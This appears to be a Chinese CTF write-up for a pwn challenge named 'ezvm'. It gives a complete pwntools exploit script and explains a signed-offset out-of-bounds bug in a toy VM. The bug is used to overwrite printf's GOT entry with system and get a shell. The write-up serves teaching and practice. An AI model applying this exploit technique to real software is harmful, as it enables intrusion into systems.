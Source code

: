 ```yaml
---
typora-copy-images-to: ./image
---
```


# 

by Maple

## ezvm 简单虚拟机

慢慢来看的话其实很简单，先贴exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

#offset = -0xf980
#7：末字符++
#8：末字符--
#5：负溢出
# printf = 0x606f0
# system = 0x50d70
def sub():
    return p8(0x4)

def push(x):
    return p8(0x1)+p8(x)

def store(x):
    return p8(0x5)+p8(x,signed = True)

def load(x):
    return p8(0x6)+p8(x,signed = True)

def add():
    return p8(0x3)

payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)

p.sendlineafter("length:",str(len(payload)))
p.sendline(payload)
p.interactive()
```

### 源码分析

1先看看ida的逆向，这个直接问ai其实就行

- a1代表的栈：
  - a1+0~127:全局变量数据存储(LOAD/STORE)
  - a1+129~255:操作存储
  - a1+256:栈深度

- 输入`0x1`和`x`:将x压入栈中

- 输入`0x2`：将栈顶的数据弹出
- `0x3`:栈中弹出两个数据，然后将相加得到的数值压入栈顶
- `0x4`:栈中弹出两个数据，然后将相减得到的数值压入栈顶
- `0x5`:输入一个地址，将栈顶的元素弹给指定地址
- `0x6`:输入一个地址，将指定地址的元素压到栈顶
- ......

开始找问题

这里可以注意到v3是`int`型，但是这里偏移的提取是`char`类型，可以写入负数实现越界读写

最大范围是`0x80`，这个在压栈函数里可以看到，所以可以越界写`0x80`长度的地址

![image-20250403164905608](./image/image-20250403164905608.png)

那么看一下往上0x80是什么

| ![image-20250403165205458](./image/image-20250403165205458.png) |
| ------------------------------------------------------------ |
| 我们写入的字符串的地址是0xA0,`0xA0-0x80=0x20`，恰好可以写到`printf@got`,这个时候就很好想了，改got表，执行`system(/sh)` |

### exp分析：

```python
printf = 0x606f0
system = 0x50d70
```

这里直接打印出来libc中两者的位置，后面更改做参考

````python
payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
````

1. 将`0xf0-0x70`（最后字节）压入栈顶
2. 加载到`-0x80`偏移处(printf地址)加载出当前的最低字节压栈
3. 执行减法并压栈，即`实际地址-offset`

```python
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
```

这两步同理，改了低二字节和低三字节

```python
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
```

此时虚拟栈的结构里：低三字节，低二字节，最低字节

所以要倒序写入，这样就完成了改写printf的got表地址

```python
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)
```

原本的操作是输出栈中的内容，那么我们把`/sh`写入栈中，就可以执行`system(/sh)`

**OVER**
